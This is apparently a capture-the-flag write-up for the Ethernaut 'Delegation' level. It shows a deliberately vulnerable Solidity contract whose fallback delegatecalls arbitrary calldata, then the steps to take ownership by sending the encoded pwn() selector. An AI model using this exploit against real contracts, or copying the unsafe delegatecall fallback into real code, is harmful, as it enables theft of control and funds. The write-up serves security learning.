 # Delegation Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

# Solution
This solution envolves taking advantage of delegatecall and the fallback function. The key to this solution is knowing that you can pass functions as data and run them in other contracts.
Delegatecall will call functions as the contract in which the delegatecall was invoked. In this case, we want to get the fallback function in Delagation to call the pwn() function because in doing so, we can send the pwn() function with us as the sender.

In Remix, we add the following:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GetPwnSignature{
    function getSig() public pure returns (bytes memory) {
        return abi.encodeWithSignature("pwn()");
    }
}
```

When we run this code we will get a value of  0xdd365b8b.

Now, we can go back to ethernaut and run:
> await contract.sendTransaction({data: '0xdd365b8b'})

# What I learned
1. Careful when using delegatecall and always know what other contracts you are using are doing
2. Getting encoded signatures in solidity
